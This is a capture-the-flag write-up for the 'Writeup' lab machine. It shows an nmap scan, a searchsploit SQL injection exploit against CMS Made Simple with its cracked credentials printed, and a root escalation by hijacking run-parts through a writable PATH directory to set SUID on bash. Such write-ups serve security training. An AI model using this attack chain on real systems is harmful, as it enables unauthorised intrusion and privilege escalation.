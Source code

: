 ```yaml
---
permalink: /writeup
layout: post
author: jkr
title: Writeup
date: 2021-07-02
publish: True

description: "Writeup is an easy difficulty Linux box with a CMS DoS protection in place to prevent brute forcing with a SQL injection vulnerability, which is leveraged to gain user credentials.. The user is found to be in a non-default group, which gives write access to part
of the PATH. A path hijacking results in escalation of privileges to root.
"
---
```


# Skills Learned

- Path Hijacking
- Process learning

# Enumeration

## Nmap
* 80
* 22

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT       ADDRESS
1   516.48 ms 10.10.14.1
2   516.47 ms writeup.htb (10.10.10.138)
```

Port 80

![](/Writeups/Writeup/Pasted image 20210702151938.png)

There is a protection script to block the ip address so cannot brutefore directories. Let's look robots.txt

![](/Writeups/Writeup/Pasted image 20210702152135.png)


![](/Writeups/Writeup/Pasted image 20210702152151.png)

writeup date path looks like blog for machines. On further enumeration we can found what the site is made up of .

![](/Writeups/Writeup/Pasted image 20210702152511.png)

Version 2.2.9.1

![](/Writeups/Writeup/Pasted image 20210702153137.png)

```bash
--------------------------------------------- ---------------------------------
 Exploit Title                               |  Path
--------------------------------------------- ---------------------------------

CMS Made Simple < 2.2.10 - SQL Injection     | php/webapps/46635.py

--------------------------------------------- ---------------------------------
```

An exploit was found in exploitdb let's mirror the exploit.

``` searchsploit -m php/webapps/46635.py```

On running the exploit we got salt and password hash



```python

python2 46635.py -u http://10.10.10.138/writeup --crack -w rockyou.txt


[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9


```

Using the creds we can ssh into the box.

![](/Writeups/Writeup/Pasted image 20210702171443.png)

An interesting group called staff was found. Allows users to add local modifications to the system (/usr/local) without needing root privileges

![](/Writeups/Writeup/Pasted image 20210702171606.png)

In order to exploit this we need to find out some process that runs without full path. Using Pspy we can find out that when a user ssh into the box `run-parts` runs without full path lets's take advantage of that by creating a file `run-parts ` in `/usr/local/bin`

![](/Writeups/Writeup/Pasted image 20210702172142.png)

create a run-parts file in /usr/local/bin and give suid to bash

![](/Writeups/Writeup/Pasted image 20210702172708.png)

 when a new ssh session begins suid permission will be set to bash

![](/Writeups/Writeup/Pasted image 20210702172947.png)